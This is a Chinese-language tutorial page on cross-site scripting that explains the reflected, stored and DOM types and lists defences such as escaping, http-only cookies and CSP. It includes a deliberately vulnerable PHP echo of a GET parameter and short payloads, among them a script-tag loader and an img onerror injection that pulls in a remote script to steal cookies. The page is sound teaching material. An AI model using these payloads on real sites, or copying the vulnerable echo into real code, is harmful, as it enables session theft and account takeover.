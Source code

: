 ```yaml
---
title: XSS 跨站脚本攻击
---
```


# {{ $frontmatter.title }}

::: tip
跨站脚本攻击 `XSS`，是最普遍的 `Web` 应用安全漏洞。这类漏洞能够使得攻击者嵌入恶意脚本代码到正常用户会访问到的页面中，当正常用户访问该页面时，则可导致嵌入的恶意脚本代码的执行，从而达到恶意攻击用户的目的。
:::

## 类型

- `反射型XSS`： 通过 `URL` 参数直接注入，攻击者事先制作好攻击链接,需要欺骗用户自己去点击链接才能触发 `XSS` 代码，所谓反射型 `XSS` 就是将恶意用户输入的 `js` 脚本，反射到浏览器执行。
- `存储型XSS`：代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，每当有用户访问该页面的时候都会触发代码执行，这种 `XSS` 非常危险，容易造成蠕虫，大量盗窃 `cookie`，也被称为 `持久型XSS`。
- `DOM型XSS`：类似于 `反射型XSS`，但这种 `XSS` 攻击的实现是通过对 `DOM树` 的修改而实现的。

## 原理

当动态页面中插入的内容含有这些特殊字符如 `<` 时，用户浏览器会将其误认为是插入了 `HTML` 标签，当这些 `HTML` 标签引入了一段 `JavaScript` 脚本时，这些脚本程序就将会在用户浏览器中执行。当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生 `XSS` 漏洞。

攻击者可以使用户在浏览器中执行其预定义的恶意脚本，劫持用户会话，插入恶意内容、重定向链接、使用恶意软件劫持用户浏览器等等。

1. 基于 `反射型XSS` 漏洞，欺骗用户点击以执行 `js` 代码，可以盗取 `cookie` 等。

```php
// 直接将输入打印到页面，造成XSS
<?php
$XssReflex = $_GET['i'];
echo $XssReflex;
```

```txt
<!-- 构造url，点击后就可以执行js代码 -->
http://127.0.0.1/xss.php?i=<script>alert("run javascript");</script>
```

2. 基于 `存储型XSS` 漏洞，将 `js` 代码存储于服务器数据库中，服务器直接查询数据库数据显示到页面，即造成 `XSS`
   最经典的 `存储型XSS` 漏洞是留言板，当用户 A 在留言板留言一段 `JS` 代码 `<script>alert("run javascript");</script>`,后端未经过滤直接存储到数据库，当正常用户浏览到他的留言后，这段 JS 代码就会被执行，可以借此来盗取 `cookie`。

```txt
graph LR
恶意用户A --> 构造JS代码
构造JS代码 --> 服务器数据库
服务器数据库 --> 正常用户B显示页面
服务器数据库 --> 正常用户C显示页面
服务器数据库 --> 正常用户...显示页面
正常用户B显示页面 --> 执行js盗取cookie
正常用户C显示页面 --> 执行js盗取cookie
正常用户...显示页面 --> 执行js盗取cookie
```

3. 基于 `DOM` 的型 `XSS` 漏洞类似于 `反射型XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的 `Js` ，利用 `<script>`、`<img>` 等标签允许跨域请求资源。

经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即 `触发XSS`，传递 `cookie` 与后台管理地址后就可以登录到后台了。

```js
<script scr="js_url"></script>
```

```html
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```

## 防御

- 在用户提交参数前，将提交的字符< 、>、&、" 、' 、+、/等进行转义，严格控制输出。
- 将输入转化为小写对比 `javascript:` ，若匹配则过滤。
- 将 `cookie` 设置为 `http-only`,`js` 脚本将无法读取到 `cookie` 信息。
- 纯前端渲染，明确 `innerText`、`setAttribute`、`style`，将代码与数据分隔开。
- 避免不可信的数据拼接到字符串中传递给这些 `API`，如 `DOM中` 的内联事件监听器，`location`、`onclick`、`onerror`、`onload`、`onmouseover`等，`<a>` 标签的 `href` 属性，`JavaScript` 的 `eval()`、`setTimeout()`、`setInterval()`等，都能把字符串作为代码运行。
- 对于不受信任的输入，都应该限定一个合理的长度。
- 严格的 `CSP`,禁止加载外域代码，禁止外域提交，禁止内联脚本执行等较为严格的方式。
